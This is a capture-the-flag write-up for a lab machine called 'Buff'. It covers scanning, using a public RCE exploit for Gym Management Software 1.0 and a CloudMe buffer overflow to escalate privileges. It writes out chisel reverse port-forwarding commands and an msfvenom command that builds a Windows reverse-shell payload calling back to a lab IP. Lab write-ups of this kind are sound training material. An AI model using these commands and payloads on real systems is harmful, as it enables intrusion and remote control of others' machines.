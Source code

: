# Buff

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (16) (4).png" alt=""><figcaption></figcaption></figure>

### Gym

On port 8080, it was a gym-related page:

<figure><img src="../../../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

We can use `gobuster` on the website to find more directories:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking the `contact.php` file, we see the software used to make this.

<figure><img src="../../../.gitbook/assets/image (13) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can search for exploits for this Gym Management Software 1.0.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

We can try the RCE exploit:

{% embed url="https://www.exploit-db.com/exploits/48506" %}

By running the exploit, we would gain a webshell:

<figure><img src="../../../.gitbook/assets/image (164) (3).png" alt=""><figcaption></figcaption></figure>

Afterwards, gaining a reverse shell via nc.exe or Powershell is trivial.

## Privilege Escalation

### CloudMe

When enumerating the user's directory, we find a CloudMe\_1112.exe file:

<figure><img src="../../../.gitbook/assets/image (4) (4).png" alt=""><figcaption></figcaption></figure>

When checking for exploits regarding CloudMe, we can find a few Buffer Overflow exploits that can be used for RCE using shellcode.

<figure><img src="../../../.gitbook/assets/image (15) (4).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.exploit-db.com/exploits/48389" %}

CloudMe for this machine runs on port 8888 on this machine, so we can just run it and use chisel to port forward port 8888.

```bash
# on Kali
chisel server --port 4444 --reverse

# on host
.\chisel.exe 10.10.16.9:4444 R:8888:localhost:8888
```

Then, we need to generate new shellcode for the exploit:

{% code overflow="wrap" %}
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.9 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
{% endcode %}

Afterwards, we can simply run the exploit and it would spawn a root shell on the listener port.
